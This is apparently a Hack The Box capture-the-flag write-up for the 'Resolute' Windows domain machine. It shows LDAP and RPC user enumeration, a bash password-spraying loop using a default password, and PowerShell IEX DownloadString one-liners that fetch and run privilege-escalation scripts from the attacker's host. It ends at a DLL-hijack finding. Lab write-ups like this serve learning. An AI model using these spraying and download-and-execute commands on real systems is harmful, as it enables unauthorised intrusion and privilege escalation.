


The initial enumeration of the box provides us with a huge number of ports open.

Our first enumeration point should be `ldap`:

We can check for an anon bind with the command below:
```
nmap -p 389 --script ldap-search 10.10.10.169
```

We can see a huge dump of `ldap` records. This will be much easier with a GUI. We are going to use `jxplorer`

Below is a screen grab of an important user.



We can see in the description the string:

```
Account created. Password set to Welcome123!
```

The password does not work with this specific user. However, as this is the default it may work with a less vigilant user.

We therefore, need to enumerate some more users. We can use `rpcclient` for this:

```
rpcclient -U "" -N 10.10.10.169
```

```
rpcclient $> enumdomusers

    user:[Administrator] rid:[0x1f4]
    user:[Guest] rid:[0x1f5]
    user:[krbtgt] rid:[0x1f6]
    user:[DefaultAccount] rid:[0x1f7]
    user:[ryan] rid:[0x451]
    user:[marko] rid:[0x457]
    user:[sunita] rid:[0x19c9]
    user:[abigail] rid:[0x19ca]
    user:[marcus] rid:[0x19cb]
    user:[sally] rid:[0x19cc]
    user:[fred] rid:[0x19cd]
    user:[angela] rid:[0x19ce]
    user:[felicia] rid:[0x19cf]
    user:[gustavo] rid:[0x19d0]
    user:[ulf] rid:[0x19d1]
    user:[stevie] rid:[0x19d2]
    user:[claire] rid:[0x19d3]
    user:[paulo] rid:[0x19d4]
    user:[steve] rid:[0x19d5]
    user:[annette] rid:[0x19d6]
    user:[annika] rid:[0x19d7]
    user:[per] rid:[0x19d8]
    user:[claude] rid:[0x19d9]
    user:[melanie] rid:[0x2775]
    user:[zach] rid:[0x2776]
    user:[simon] rid:[0x2777]
    user:[naoki] rid:[0x2778]
```

And we can get more information on a user like so:
```
rpcclient $> queryuser ryan
	User Name   :	ryan
	Full Name   :	Ryan Bertrand
	Home Drive  :	
	Dir Drive   :	
	Profile Path:	
	Logon Script:	
	Description :	
	Workstations:	
	Comment     :	
	Remote Dial :
	Logon Time               :	Thu, 01 Jan 1970 01:00:00 BST
	Logoff Time              :	Thu, 01 Jan 1970 01:00:00 BST
	Kickoff Time             :	Thu, 01 Jan 1970 01:00:00 BST
	Password last set Time   :	Wed, 11 Dec 2019 09:38:03 GMT
	Password can change Time :	Thu, 12 Dec 2019 09:38:03 GMT
	Password must change Time:	Thu, 14 Sep 30828 02:48:05 GMT
	unknown_2[0..31]...
	user_rid :	0x451
	group_rid:	0x201
	acb_info :	0x00000210
	fields_present:	0x00ffffff
	logon_divs:	168
	bad_password_count:	0x00000002
	logon_count:	0x00000000
	padding1[0..7]...
	logon_hrs[0..21]...
```

Using the script below we can brute force the users and password combo:

```bash
USERS="krbtgt ryan marko sunita abigail marcus sally fred angela felicia gustavo ulf stevie claire paulo steve annette annika per claude melanie zach simon naoki"

for u in ${USERS[@]}; do
	echo $u
	python3 ~/GitHub/Pentesting_Tools/Enumeration/Impacket/smbclient.py $u:Welcome123\!@10.10.10.169
	echo ""
done; 
```

Default password works with the user `melanie`:

```
melanie:Welcome123!
```

We can then use this username and password with our best friend `evil-wimrm.rb` 

To log on and grab the `user.txt`!

# ROOT

IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.80:8000/jaws-enum.ps1')
IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.80:8000/PowerUp.ps1'); Invoke-AllChecks


```
[*] Checking %PATH% for potentially hijackable DLL locations...


ModifiablePath    : C:\Users\melanie\AppData\Local\Microsoft\WindowsApps
IdentityReference : MEGABANK\melanie
Permissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
%PATH%            : C:\Users\melanie\AppData\Local\Microsoft\WindowsApps
AbuseFunction     : Write-HijackDll -DllPath 'C:\Users\melanie\AppData\Local\Microsoft\WindowsApps\wlbsctrl.dll'
```

IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.80:8000/PowerUp.ps1'); Write-HijackDll -DllPath 'C:\Users\melanie\AppData\Local\Microsoft\WindowsApps\wlbsctrl.dll'

IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.80:8000/Ikeext-Privesc.ps1'); Invoke-IkeextCheck